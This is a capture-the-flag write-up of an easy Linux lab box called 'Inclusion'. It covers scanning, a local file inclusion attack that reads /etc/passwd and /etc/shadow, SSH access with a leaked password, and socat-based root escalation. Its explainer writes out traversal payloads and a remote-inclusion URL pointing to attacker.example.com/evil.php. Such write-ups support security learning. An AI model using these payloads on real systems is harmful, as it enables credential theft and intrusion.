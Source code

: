 ```yaml
---
title: "Inclusion"
tags:
  - Easy
  - Linux
  - nmap
  - LFI
  - socat
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--|:------------: |--|
|    Easy    |  |  10.10.16.93  |  |

---

Let's start off by running a basic `nmap` scan on the target machine with standard scripts loaded and version enumeration enabled. 

```
sudo nmap -sC -sV -vv 10.10.16.93
```

**Results:**

![screenshot1](../assets/images/inclusion/screenshot1.png)

As we can see, there are two services running on the target machine: **SSH (22)** and **HTTP (80)**.

Let's first check out the HTTP webserver. We are brought to this webpage:

![screenshot2](../assets/images/inclusion/screenshot2.png)

Looks like we have a simple blog.

Before conducting our happy-path enumeration, we can start a `gobuster` directory scan to see if we can enumerate any hidden directories.

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

We make sure to include common file extensions in our enumeration, such as .php and .js.

While the scan is going on, let's explore the website. 

Firstly, I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried searching for low-hanging fruit such as visiting the /robots.txt file, but those did not result in anything of use.

At the bottom of the web page, there were three sections dedicated to different blog posts. Looks like the posts taught us more about **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** attacks! This will be useful as I currently have no idea what those attacks are. 

Clicking on the 'View Details' button below the sections brought me to the blog posts. I checked the source code for each of these dedicated posts but there was nothing of interest.

Alright, time to learn more about LFI and RFI attacks.

---

### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. 

Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input 'module' and the value to be the file 'contact.php'. Of course, it would seem that contact.php is in the same directory as the calling file and hence, the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file on the filesystem, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local /etc/shadow file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a PHP script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded:

```
https://example.com/?module=../../../uploads/malicious.php
```

The web server will then execute the script.

### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a URL to another web server (controlled by the attacker) to execute malicious code that is hosted on that webserver. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```

---

Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. 

First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:

![screenshot3](../assets/images/inclusion/screenshot3.png)

Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practice file inclusion, which means that I could attempt to mount an attack there!

![screenshot4](../assets/images/inclusion/screenshot4.png)

It seemed that the web server was taking in an input 'name' and the filename that produced the wall of text shown on the page was called 'hacking'.

I'll try to change 'hacking' to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.

![screenshot5](../assets/images/inclusion/screenshot5.png)

The attack worked! The contents of the /etc/passwd file is displayed by the web server. 

Next, I'll try if I can read the /etc/shadow file. If I can do so, I'll be able to obtain the credentials of users on the machine.

![screenshot6](../assets/images/inclusion/screenshot6.png)

Sure enough, I could read the /etc/shadow file. From the file, I saw that that there was a user account called **falconfeast**. His hashed password was also exposed. 

At this stage, I wanted to use `john` to crack this password. However, looking more closely at the file, I noticed a comment:

![screenshot7](../assets/images/inclusion/screenshot7.png)

On the right, we can see the text: 

> #falconfeast:rootpassword 

Could 'rootpassword' be the password for falconfeast? To test this, I tried to ssh into falconfeast's account using the password:

![screenshot8](../assets/images/inclusion/screenshot8.png)

Nice, that was his password after all! 

With that, I was able to log into falconfeast's account and obtain **user.txt** from his home directory.

---

Now let's escalate our privileges. 

Before using a privilege escalation automation script like [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I first did some manual enumeration. 

Firstly, I ran the command `sudo -l` to see what sudo privileges that falconfeast had:

![screenshot9](../assets/images/inclusion/screenshot9.png)

Looks like he can run `socat` as root! Next, I went to [GTFOBins](https://gtfobins.github.io/gtfobins/socat/) to see if there were any vulnerabilities that I could exploit with this binary.

I managed to find a method using `socat` to spawn a shell as root:

![screenshot10](../assets/images/inclusion/screenshot10.png)

After running the command above, I managed to spawn a root shell:

![screenshot11](../assets/images/inclusion/screenshot11.png)

With that, I can easily navigate towards /root and obtain **root.txt**.

